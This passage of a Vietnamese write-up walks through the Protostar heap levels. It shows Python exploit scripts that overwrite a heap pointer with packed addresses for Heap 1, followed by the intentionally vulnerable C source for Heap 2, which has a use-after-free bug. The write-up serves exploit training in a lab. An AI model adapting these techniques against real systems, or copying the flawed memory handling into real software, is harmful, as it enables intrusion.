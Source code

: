 Bây giờ mình sẽ ghi đè giá trị của biến con trỏ `name` bởi địa chỉ `0x08049774`
```py
# heap1.py
import struct
padding = 'a' * 20
address_to_write = struct.pack('<I',0x08049774)
print padding+address_to_write
```
```py
# addr.py
import struct
print struct.pack("I", 0x08048494)
```

![alt text](image-5.png)

### Heap 2
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
```
